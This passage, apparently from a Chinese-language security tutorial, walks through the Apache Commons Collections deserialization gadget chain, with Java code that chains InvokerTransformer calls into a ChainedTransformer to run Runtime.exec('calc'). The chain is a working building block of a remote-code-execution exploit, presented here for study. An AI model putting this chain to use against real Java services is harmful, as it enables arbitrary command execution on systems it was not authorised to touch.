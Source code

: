 ```java
        Object ob3 = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new Object[]{"calc"}
        ).transform(ob2);
        // exec.invoke(r,"calc");
    }
```



**这样，Runtime 序列化的问题就解决了。**



值得一提的是，从上面的三个 InvokerTransformer 的调用关系上来看，实际上是一个链式调用。前一个的输出作为后一个的输入，在 Common-collections 中，有一个 ChainedTransformer 可以用于 Transformer 的链式调用。



这个类的 transform 方法的作用就是链式调用 iTransformers。



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747080817-c3add96d-a736-45ce-b5aa-bbf52b8b25ec.png)



iTransformers 是一个 Transformer 数组，构造器传入参数时赋值。



因此，我们可以将上面三个 InvokerTransformer 合并到一个 ChainedTransformer 中。



改写如下；



```java
    public static void testRuntimeClassChainedTransformer() throws Exception {
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{
                    new InvokerTransformer(
                            "getMethod",
                            new Class[]{String.class,Class[].class},
                            new Object[]{"getRuntime",null}
                    ),
                    new InvokerTransformer(
                            "invoke",
                            new Class[]{Object.class,Object[].class},
                            new Object[]{null,null}
                    ),
                    new InvokerTransformer(
                            "exec",
                            new Class[]{String.class},
                            new Object[]{"calc"}
                    )
            });
        chainedTransformer.transform(Runtime.class);
    }
```
